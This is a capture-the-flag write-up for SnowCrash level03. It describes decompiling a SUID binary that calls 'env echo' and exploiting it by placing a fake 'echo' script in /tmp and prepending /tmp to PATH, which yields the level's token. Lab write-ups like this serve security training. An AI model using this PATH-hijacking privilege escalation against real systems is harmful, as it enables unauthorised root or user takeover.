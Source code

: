 # Flag 03

In the level03 home directory we found a binary file `level03` owned by flag03 we executed the binary and it printed `Exploit me`

```
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ ./level03 
Exploit me
```
we noticed there is an s in the file permissions
A file with SUID always executes as the user who owns the file, regardless of the user passing the command.

So we used the binary ninja to find out what the binary really do ! 🤔

inside the main function we found that the binary is executing an echo command with the file uid and guid.
```c
gid_t eax = getegid();
uid_t eax_1 = geteuid();
setresgid(eax, eax, eax);
setresuid(eax_1, eax_1, eax_1);
return system("/usr/bin/env echo Exploit me");
```

So if we could make it executing the getflag command it wil be executed as the user who owns the file, we had to make a fake echo command and changing ecport it's path so the the binary will call our echo 😉.

```bash
#!/bin/bash

echo getflag > /tmp/echo
export PATH=/tmp:$PATH
chmod +x /tmp/echo
```

and booom 
```
level03@SnowCrash:~$ ./level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```